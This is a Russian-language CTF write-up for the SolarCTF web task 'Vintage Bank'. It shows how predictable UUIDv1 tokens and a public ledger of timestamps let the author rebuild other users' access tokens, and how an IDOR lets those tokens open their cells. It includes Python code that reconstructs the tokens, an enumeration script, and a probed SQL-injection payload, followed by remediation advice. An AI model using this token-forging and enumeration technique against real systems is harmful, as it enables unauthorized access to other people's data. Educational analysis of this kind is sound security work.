






# SolarCTF — Web: Vintage Bank

<table>
<tr><td><b>Платформа</b></td><td>SolarCTF</td></tr>
<tr><td><b>Категория</b></td><td>Web (Easy)</td></tr>
<tr><td><b>Класс уязвимости</b></td><td>IDOR (BOLA) + предсказуемый UUIDv1 в роли токена</td></tr>
<tr><td><b>CWE</b></td><td>CWE-639, CWE-330, CWE-200</td></tr>
<tr><td><b>Цель</b></td><td><code>https://vintage-bank.solarctf.ru</code></td></tr>
<tr><td><b>Инструменты</b></td><td>Burp Suite, Python (<code>requests</code>, <code>uuid</code>)</td>
</table>

---

## Оглавление

1. [Краткое summary](#краткое-summary)
2. [Методология и карта MITRE ATT&CK](#методология-и-карта-mitre-attck)
3. [Цель и функционал приложения](#цель-и-функционал-приложения)
4. [Разведка через Burp Suite](#1-разведка-через-burp-suite)
5. [Получение собственного токена](#2-получение-собственного-токена)
6. [Анализ структуры UUID-токена](#3-анализ-структуры-uuid-токена)
7. [Отброшенные гипотезы](#4-отброшенные-гипотезы)
8. [Публичный журнал `/api/ledger`](#5-находка-публичный-журнал-apiledger)
9. [Восстановление токена из даты и первая проверка](#6-восстановление-токена-из-даты-и-первая-проверка)
10. [Массовая проверка всех записей и флаг](#7-массовая-проверка-всех-записей-и-флаг)
11. [Разбор уязвимостей](#разбор-уязвимостей)
12. [Рекомендации по устранению](#рекомендации-по-устранению)
13. [Выводы](#выводы)

---

## Краткое summary

Токен доступа к банковской ячейке (cell token) генерируется на бэкенде как **UUIDv1**. Поля `node` (MAC-адрес) и `clock_seq` в UUID оказались одинаковыми для всех собранных образцов — бэкенд-процесс ни разу не перезапускался, а значит единственная переменная часть токена — это временная метка создания карты. Публичный эндпоинт `GET /api/ledger` раскрывает исторический журнал аренды ячеек с точными датами создания карт (`ФИО`, `дата`, `cell`), но без самих токенов. Поскольку сидирование БД выполнялось той же логикой генерации UUID, токен любой исторической записи восстанавливается прямо из даты в журнале. Эндпоинт `GET /api/cell/{uuid}` при этом не проверяет, принадлежит ли токен текущей сессии — классический **IDOR/BOLA**[^1]. Подставив вычисленный чужой токен, получаем доступ к чужой ячейке с флагом.

[^1]: **BOLA** (Broken Object Level Authorization) — уязвимость API, при которой приложение проверяет аутентификацию пользователя, но не проверяет, что конкретный запрашиваемый объект (ячейка, запись, файл) принадлежит именно ему. Современный термин из OWASP API Security Top 10; классический синоним — IDOR (Insecure Direct Object Reference).
---

## Методология и карта MITRE ATT&CK

| №   | Шаг                                                                                       | Тактика (Tactic)           | Техника (Technique)                                                                                                               |
| --- | ----------------------------------------------------------------------------------------- | -------------------------- | --------------------------------------------------------------------------------------------------------------------------------- |
| 1   | Анализ трафика через Burp Proxy, изучение структуры эндпоинтов                            | Reconnaissance (TA0043)    | [T1595.002 — Active Scanning: Vulnerability Scanning](https://attack.mitre.org/techniques/T1595/002/)                             |
| 2   | Декодирование UUID (версия, node, clock_seq) для профилирования генератора токенов        | Reconnaissance (TA0043)    | [T1592 — Gather Victim Host Information](https://attack.mitre.org/techniques/T1592/)                                              |
| 3   | Проверка гипотезы SQL-инъекции на параметре `{uuid}`                                      | Initial Access (TA0001)    | [T1190 — Exploit Public-Facing Application](https://attack.mitre.org/techniques/T1190/)                                           |
| 4   | Использование `/api/ledger` для получения метаданных о чужих записях                      | Discovery (TA0007)         | [T1213 — Data from Information Repositories](https://attack.mitre.org/techniques/T1213/)                                          |
| 5   | Сбор исторических дат создания карт для восстановления токенов                            | Collection (TA0009)        | [T1213 — Data from Information Repositories](https://attack.mitre.org/techniques/T1213/)                                          |
| 6   | Детерминированное восстановление чужого токена из даты и подстановка в `/api/cell/{uuid}` | Initial Access (TA0001)    | [T1190 — Exploit Public-Facing Application](https://attack.mitre.org/techniques/T1190/)                                           |

---

## Цель и функционал приложения

- Банковское хранилище с индивидуальными ячейками.
- `POST /api/rent` — выдаёт пользователю ключ-карту: `{"token": "<uuid>", "cell": <n>}`.
- `GET /api/cell/{uuid}` — возвращает содержимое ячейки по токену: `{"cell", "owner", "flag"}`.
- `GET /api/ledger` — публичный журнал всех предыдущих арендаторов: `{"ord", "name", "date", "cell"}` (без токенов).

---

## 1. Разведка через Burp Suite

**MITRE ATT&CK:** TA0043 Reconnaissance → T1595.002

Проксируем трафик приложения через Burp Suite и изучаем историю запросов:



Видны три ключевых эндпоинта: `GET /api/ledger`, `POST /api/rent` и `GET /api/cell/{uuid}` — именно вокруг них строится вся дальнейшая атака.

---

## 2. Получение собственного токена

Арендуем ячейку легитимным образом:

```
POST /api/rent
```



```json
{
  "token": "d14dfd00-ca11-11f1-9a2b-0242ac110002",
  "cell": 30
}
```

Повторяем запрос к `/api/cell/{uuid}` с этим токеном — приложение корректно возвращает содержимое именно моей ячейки:



---

## 3. Анализ структуры UUID-токена

Полученный собственный токен:

```
d14dfd00-ca11-11f1-9a2b-0242ac110002
```

Разбор полей UUID показал:

- версия — `1` (time-based UUID);
- `node = 02:42:ac:11:00:02` — MAC, характерный для Docker bridge-интерфейса;
- `clock_seq = 0x1a2b` — одинаков во всех собранных образцах.

Собрав несколько своих карт из разных сессий, подтвердили: `node` и `clock_seq` не меняются между запросами → один и тот же backend-процесс, один и тот же генератор `uuid1()`. Переменная часть — только таймстамп.

---

## 4. Отброшенные гипотезы

Прежде чем остановиться на детерминированном восстановлении, проверили и отбросили:

- `/api/cell/{uuid}` не валидирует формат входного параметра вообще — произвольная строка (`/api/cell/123`, пустой UUID и т.д.) даёт `200 OK` с `null`-полями вместо `400`. Это навело на мысль о SQL-инъекции.
- SQLi-гипотеза не подтверждается. Одиночная кавычка и `' OR 1=1--` не меняли поведение ответа — параметр явно используется в параметризованном запросе (точное строковое сравнение).

---

## Публичный журнал `/api/ledger`

```
GET /api/ledger
```



Журнал раскрыл 26 исторических записей аренды с полями `name`, `date` (`DD.MM.YYYY HH:MM:SS`) и `cell`, без токенов. Возникла новое предположение. Раз сидирование БД и live-генерация карт используют один и тот же `node`/`clock_seq`, то токен исторической записи можно вычислить, подставив `date` записи как временную метку UUIDv1 (в UTC, без дробной части секунды).

---

## 6. Восстановление токена из даты и первая проверка

**MITRE ATT&CK:** TA0009 Collection → T1213; TA0001 Initial Access → T1190

```python
import uuid, datetime

NODE = 0x0242ac110002
CLOCK_SEQ = 0x1a2b

def uuid1_at(ts_100ns):
    time_low = ts_100ns & 0xffffffff
    time_mid = (ts_100ns >> 32) & 0xffff
    time_hi_version = ((ts_100ns >> 48) & 0x0fff) | 0x1000
    csh = ((CLOCK_SEQ >> 8) & 0x3f) | 0x80
    csl = CLOCK_SEQ & 0xff
    return uuid.UUID(fields=(time_low, time_mid, time_hi_version, csh, csl, NODE))

def dt_to_100ns(dt):
    return int(dt.timestamp() * 1e7) + 0x01B21DD213814000

def token_for(date_str):
    dt = datetime.datetime.strptime(date_str, "%d.%m.%Y %H:%M:%S")
    dt = dt.replace(tzinfo=datetime.timezone.utc)
    return str(uuid1_at(dt_to_100ns(dt)))
```

Проверяем первую попавшуюся запись через Burp Repeater — вычисленный токен действительно принадлежит чужой записи (владелец совпал), но без флага:



```json
{
  "cell": 1,
  "owner": "Беляева О.",
  "flag": null
}
```

Гипотеза подтверждена с первой же проверенной записи (часовой пояс — UTC): токен, вычисленный исключительно из даты журнала, возвращает корректного владельца ячейки. Осталось перебрать остальные записи в поиске той, где `flag` не `null`.

---

## 7. Массовая проверка всех записей и флаг

Для всех 26 записей журнала вычисляем токены описанным выше алгоритмом и последовательно проверяем через `GET /api/cell/{token}`:

```python
import requests, time

BASE = "https://vintage-bank.solarctf.ru/api/cell/"

tokens = [
    (1, "Иванов М.", 28, "4045b380-8500-11f1-9a2b-0242ac110002"),
    # ...
    (13, "Уточкин С.", 6, "1b48a100-3f0f-11f1-9a2b-0242ac110002"),
    # ...
    (26, "Комаров И.", 12, "5f5b0580-8d8a-11f1-9a2b-0242ac110002"),
]

session = requests.Session()
for ord_, name, cell, tok in tokens:
    try:
        r = session.get(BASE + tok, timeout=10)
        data = r.json()
        flag = data.get("flag")
        owner = data.get("owner")
        marker = " <<<< FLAG!" if flag else ""
        print(f"{ord_:2d} {name:15s} cell={cell:2d} owner={owner!r:20s} flag={flag!r}{marker}")
    except Exception as e:
        print(f"{ord_:2d} {name:15s} ERROR: {e}")
    time.sleep(1.5)
```

Полный скрипт — [`brute.py`](./brute.py).

Запись `#13`, `Уточкин С.`, ячейка `6` возвращает флаг:



```json
{
  "cell": 6,
  "owner": "Уточкин С.",
  "flag": "SOLARCTF{idor_s4fe_d3posit_b0x}"
}
```

Флаг получен!

---

## Разбор уязвимостей

<table>
<tr><td colspan="2"><b>Уязвимость 1. Предсказуемый идентификатор доступа (UUIDv1)</b></td></tr>
<tr><td><b>CWE</b></td><td><a href="https://cwe.mitre.org/data/definitions/330.html">CWE-330</a> — Use of Insufficiently Random Values</td></tr>
<tr><td><b>Точка входа</b></td><td>Токен (<code>token</code>), выдаваемый <code>POST /api/rent</code>, используется как единственный секрет для доступа к ячейке</td></tr>
<tr><td><b>Корневая причина</b></td><td>UUIDv1 кодирует время создания + MAC-адрес узла; при фиксированных <code>node</code>/<code>clock_seq</code> (долгоживущий процесс) он фактически вырождается в временную метку с ограниченной точностью (0.1 сек) — не подходит для роли capability-токена</td></tr>

<tr><td colspan="2"><b>Уязвимость 2. Broken Object Level Authorization (IDOR)</b></td></tr>
<tr><td><b>CWE</b></td><td><a href="https://cwe.mitre.org/data/definitions/639.html">CWE-639</a> — Authorization Bypass Through User-Controlled Key</td></tr>
<tr><td><b>Точка входа</b></td><td>GET-параметр <code>{uuid}</code> в <code>/api/cell/{uuid}</code></td></tr>
<tr><td><b>Корневая причина</b></td><td>Эндпоинт не сверяет токен с сессией/аккаунтом запрашивающего — любой синтаксически валидный (и даже невалидный) токен обрабатывается одинаково, без проверки владения</td></tr>

<tr><td colspan="2"><b>Уязвимость 3. Избыточное раскрытие информации</b></td></tr>
<tr><td><b>CWE</b></td><td><a href="https://cwe.mitre.org/data/definitions/200.html">CWE-200</a> — Exposure of Sensitive Information to an Unauthorized Actor</td></tr>
<tr><td><b>Точка входа</b></td><td><code>GET /api/ledger</code> (без аутентификации)</td></tr>
<tr><td><b>Корневая причина</b></td><td>Публично отдаёт точные временные метки создания токенов всех пользователей, что при предсказуемом алгоритме генерации (Уязвимость 1) напрямую приводит к восстановлению чужих токенов</td></tr>

<tr><td colspan="2"><b>Итоговая классификация</b></td></tr>
<tr><td><b>OWASP Top 10 (2021)</b></td><td>A01:2021 — Broken Access Control (IDOR)</td></tr>
<tr><td><b>Ориентировочный уровень</b></td><td>High (цепочка из трёх логических недочётов, без аутентифицированного доступа, приводящая к полному обходу авторизации)</td></tr>
<tr><td><b>Воздействие</b></td><td>Чтение содержимого чужих банковских ячеек, включая конфиденциальные данные</td></tr>
</table>

---

## Рекомендации по устранению

1. **Не использовать UUIDv1** (или любой предсказуемый/времязависимый идентификатор) в роли секретного токена доступа. Использовать криптографически случайные токены (UUIDv4 с CSPRNG, либо `secrets.token_urlsafe()`/аналог) или добавить серверную проверку владения (token ↔ session/account) независимо от формата ID.
2. **На эндпоинте `GET /api/cell/{id}`** проверять, что запрашивающий — владелец соответствующей записи (BOLA/IDOR фикс), а не просто точное совпадение по ключу.
3. **Пересмотреть состав публичного `/api/ledger`** — не раскрывать точные временные метки создания токенов других пользователей.
4. **Логировать и рейт-лимитировать** подозрительно частые запросы к `/api/cell/{id}` с меняющимся ID.

---

## Выводы

Атака строится на цепочке из трёх независимых, но усиливающих друг друга недочётов. Во-первых предсказуемый UUIDv1 в роли секретного токена. Во-вторых отсутствие проверки владения на эндпоинте доступа к ячейке (IDOR). И в-третьих публичный журнал, раскрывающий именно ту информацию (точное время создания токена), которая нужна для детерминированного восстановления чужого токена. Ни один из этих трёх недочётов сам по себе не был бы критичным — например, предсказуемый UUID был бы безопасен при наличии проверки владения, а публичный журнал был бы безвреден при использовании криптографически случайных токенов. Именно комбинация этих слабостей позволила полностью обойти авторизацию без единого запроса на брутфорс.

---

> ⚠️ Материал подготовлен в учебных целях по заданию с платформы SolarCTF. Маппинг на MITRE ATT&CK приведён для иллюстрации методологии и не подразумевает атаку на реальную инфраструктуру.
